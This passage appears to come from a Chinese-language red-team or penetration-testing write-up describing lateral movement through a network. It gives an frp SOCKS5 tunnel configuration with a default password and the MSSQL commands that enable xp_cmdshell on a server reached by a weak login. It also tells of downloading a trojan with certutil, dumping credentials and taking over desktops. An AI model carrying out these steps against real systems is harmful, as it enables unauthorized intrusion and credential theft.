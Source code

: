 ```php
[common]
server_addr = you vps ip
server_port = 8945
tls_enable = ture
pool_count = 5

[plugin_socks]
type = tcp
remote_port = 35145
plugin = socks5
# 认证 免认证把下面两行去掉
plugin_user = admin
plugin_passwd = Admin@123
use_encryption = true
use_compression = true
```

vps上执行

```php
./fprs -c frps.ini
```

跳板机上执行

```php
./fprc -c frpc.ini
```

确定连接没问题之后nohup &amp;到后台，这里如果用的腾讯云或者阿里这种vps一定记得端口组里面开启对应的端口，否则连接不上，proxifier确定代理可用。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-5a65e288f2f253bb19f09e3be7d31e8ec2b83487.png)

### 路径3 运维机器

这里通过刚才fscan扫描到的mssql弱口令打的一台运维终端主机

```php
# 开启xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp\_configure 'xp_cmdshell', 1;RECONFIGURE;
# 命令执行
exec master..xp_cmdshell "whoami"
```

相关文章

<https://www.cnblogs.com/websecyw/p/11016974.html>

确定命令正常执行是个system权限，certutil下载木马上线，抓出密码后确定管理员不在线远程到桌面。

![image.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-85fa1c5a482a1271745b3a499598c3b990a66030.png)

### 路径4 服务器所有权限

远程到终端上面才知道这台机器是运维的机器，终端上面打开了sql server连接软件，同样使用上面的命令开启xp\_cmdshell执行命令，这里sql server数据库做了降权操作，权限是sqlserver服务权限。
